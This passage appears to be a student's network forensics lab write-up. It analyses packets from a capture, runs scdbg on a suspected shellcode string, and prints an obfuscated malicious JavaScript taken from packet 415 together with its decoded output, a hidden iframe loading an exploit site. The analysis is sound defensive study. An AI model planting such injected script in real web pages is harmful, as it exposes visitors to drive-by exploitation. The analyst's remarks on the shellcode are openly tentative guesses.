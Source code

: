 
Possible shellcode: (`pckt28-shellcode`)

```c
%h%0%6%d%e%7%1%8%9%d%3%4%a%5%2%2%i%j%b%b%9%i%c%k%0%2%7%1%l%3%k%7%l%3%m%b%t%3%c%0%3%u%4%v%6%1%f%w%e%x%f%y%6%a%z%0%g%2%5%4%n%8%5%1%0%A%5%2%4%n%8%9%2%o%c%1%4%a%B%0%9%0%f%0%c%0%2%o%j%8%5%0%g%g%1%m%a%p%h%b%0%6%d%e%7%1%p%C
```

Command 5:

```c
C:\Users\husky\Desktop\CCD_NetworkForensicsLabs\Windows>scdbg.exe /f pckt28-shellcode
```


Output:

![](/assets/img/Pasted image 20240809162654.png)

	- Its not a shellcode.
	- I think this is for setting up the variable needed for the exploit?


### Found another script at packet `256` but not a malicious one

![](/assets/img/Pasted image 20240809163947.png)


### Possible malicious JS script found at `Packet 415`

Wireshark Stream:

![](/assets/img/Pasted image 20240809165318.png)


JS code:
```c
<script type="text/javascript">
var s="=jgsbnf!tsd>#iuuq;00tqmpjunf/dpn/do0@dmjdl>95d1:1ce97#!xjeui>2!ifjhiu>2!tuzmf>#wjtjcjmjuz;!ijeefo#?=0jgsbnf?";
m="";
for(i=0;i<s.length;i++){
	if(s.charCodeAt(i)==28){
		m+="&";
	} else if(s.charCodeAt(i)==23) {
		m+= "!";
	} else { 
		m+=String.fromCharCode(s.charCodeAt(i)-1);
	}
}
document.write(m);
</script>
```

Compiled:
```c
<iframe src="http://sploitme.com.cn/?click=84c090bd86" width=1 height=1 style="visibility: hidden"></iframe>
```
